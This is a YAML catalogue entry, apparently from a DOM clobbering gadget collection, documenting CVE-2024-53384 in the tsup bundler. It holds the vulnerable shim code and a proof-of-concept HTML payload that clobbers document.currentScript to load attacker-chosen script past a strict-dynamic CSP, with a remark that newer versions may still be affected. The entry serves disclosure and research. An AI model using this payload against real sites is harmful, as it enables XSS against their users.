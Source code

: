 ```yaml
---
description: The simplest and fastest way to bundle your TypeScript libraries.
github: egoist/tsup
gadgets:
  ≤8.3.4:
    cve: CVE-2024-53384
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - name-attr
      - src-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: Tsup was translating the `import.meta.url` to `document.currentScript` in `cjs_shims.js` to determine the URL of the current script.<br><br>*In the CVE advisory, it mentions version `≤8.3.4`, but it looks to work in the latest version (`8.5.0`).*
        code: |
          <!-- user input -->
          <img name="currentScript" src="[current-location]/assets/xss/index.js">

          <script nonce="secret" src="[current-location]/assets/libs/tsup/index.js?"></script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/egoist/tsup/blob/92ee84251f7c5dad7691f6052eb8b767899e0cff/assets/cjs_shims.js#L6">https://github.com/egoist/tsup/blob/92ee84251f7c5dad7691f6052eb8b767899e0cff/assets/cjs_shims.js#L6</a>

      ```javascript
      const getImportMetaUrl = () =>
        typeof document === 'undefined'
          ? new URL(`file:${__filename}`).href
          : (document.currentScript && document.currentScript.src) ||
            new URL('main.js', document.baseURI).href

      export const importMetaUrl = /* @__PURE__ */ getImportMetaUrl()
      ```
    links:
      - https://github.com/advisories/GHSA-3mv9-4h5g-vhg3
      - https://gist.github.com/jackfromeast/36f98bf7542d11835c883c1d175d9b92
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/tsup.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

